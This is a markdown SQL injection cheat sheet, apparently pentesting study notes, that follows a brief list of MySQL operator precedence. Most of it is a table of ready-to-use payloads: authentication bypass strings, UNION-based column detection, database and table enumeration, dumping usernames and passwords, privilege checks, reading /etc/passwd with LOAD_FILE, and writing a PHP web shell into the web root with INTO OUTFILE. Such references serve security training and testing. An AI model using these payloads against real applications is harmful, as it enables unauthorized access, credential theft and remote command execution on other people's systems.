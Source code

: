 ## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

## SQL Injection
| **Payload** | **Description** |
| ---- | ---- |
| **Auth Bypass** |  |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |  |
| **Union Injection (mysql) ** |  |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |  |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |  |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |  |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

---